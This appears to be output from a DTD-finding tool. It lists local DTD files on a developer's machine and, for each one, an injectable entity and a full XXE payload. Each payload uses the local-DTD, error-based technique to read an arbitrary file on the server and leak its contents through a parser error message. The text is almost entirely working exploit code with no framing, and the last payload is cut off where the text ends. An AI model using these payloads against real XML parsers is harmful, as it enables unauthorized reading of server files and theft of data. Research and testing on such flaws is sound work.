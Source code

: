 **Injectable entity:** `MethodName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/mbeans-descriptors.dtd">

    <!ENTITY % MethodName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/mbeans-descriptors.dtd`

**Injectable entity:** `VariableName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/mbeans-descriptors.dtd">

    <!ENTITY % VariableName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/erlang/application.dtd`

**Injectable entity:** `common`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/erlang/application.dtd">

    <!ENTITY % common '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

```